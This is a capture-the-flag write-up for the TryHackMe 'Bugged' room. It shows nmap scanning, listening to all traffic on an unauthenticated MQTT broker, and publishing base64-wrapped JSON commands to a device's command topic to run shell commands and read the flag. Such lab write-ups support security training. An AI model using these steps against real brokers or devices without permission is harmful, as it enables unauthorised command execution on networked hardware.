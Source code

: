 # 📝 Writeup – Bugged (TryHackMe)

---

## ENUMERATION
Standard start — quick port sweep:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Found ports: `22`, `1883`. Focused scan:

```bash
nmap -p 22,1883 -sC -sV -vv -oN scan.nmap <IP>
```

![nmap](screenshots/nmap1.png)

---

## PORT 1883 — MQTT basics (short)

If you haven’t dealt with MQTT before — it’s simple:

* **Broker**: central server that routes messages.
* **Clients**: devices/apps that either **publish** (send) or **subscribe** (receive) to topics.
* Topics are hierarchical strings like `home/living/temperature`.
* Wildcards:

  * `#` subscribes to all topics at and below that level (everything).
  * `+` is single-level wildcard.

Install the tools:

```bash
sudo apt update
sudo apt install mosquitto mosquitto-clients -y
```

---

## SUBSCRIBE & LISTEN

Subscribe to everything to see traffic:

```bash
mosquitto_sub -h <IP> -p 1883 -t '#' -v
```

* `-t '#'` = subscribe to all topics
* `-v` verbose

Screenshot of listening:
![mosquitto\_sub](screenshots/mosquitto_sub.png)

You’ll get messages like `topic payload`. One payload looked like base64. Decode it:

```bash
echo 'BASE64STRING' | base64 -d
```

Decoded payloads revealed a client ID and two topics:

* publisher: `U4vy....CHg/pub`
* subscriber: `XD2r....g0E/sub`

Looks like the service publishes on `U4vy.../pub` and reads commands on `XD2.../sub`.

---

## TALKING TO THE BROKER (PUBLISH)

We can publish to the `.../sub` topic to make the service respond on `.../pub`.

Example test message (raw):

```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '{HELP}'
```     
![publish](screenshots/mosquitto_pub)    
If the service expects base64 or another wrapper, adjust accordingly. In my run, after decoding flows I learned the expected formats were something like ``base64({"id":"<id>", "cmd":"HELP, SYS or CMD", "arg":"<arg>"})``

After sending the correctly structured message (the challenge used base64-wrapped payloads in messages), I got this helpful reply:
![HELP](screenshots/HELP.png)

Decoded it (example):

```bash
# If payload was base64
echo 'RECEIVED_BASE64' | base64 -d
```

---

## GETTING THE FLAG

I sent a `CMD` to run `ls` and then `cat flag.txt`. Example:
```bash
echo '{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd":"CMD", "arg":"ls"}' | base64
```
```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '<base64>'
```   


Response (base64 or raw) arrives on the `.../pub` topic. Decode and enjoy the flag:
![flag](screenshots/flag.png)

---

## Notes, corrections & tips

* MQTT default port is **1883** (unencrypted); authenticated/secure brokers may use TLS/8883.
* You may encounter base64 wrapping, JSON, or custom framing — always inspect decoded payloads carefully.
* If you get weird characters after base64 decode, try trimming non-base64 chars or re-check the exact payload (some services add noise).
* If the service requires a particular client ID or QoS, `mosquitto_pub` supports `-i <clientid>` and `-q <qos>`.

---

## References / Further reading

* A helpful writeup on MQTT and pentesting: [https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5](https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5)
  (Useful background if you want to dig deeper into MQTT attack vectors.)

---

## Ethics & disclaimer

Do this only on lab machines or assets you have permission to test. Don’t be careless with devices that talk to real hardware — you can break things.

---
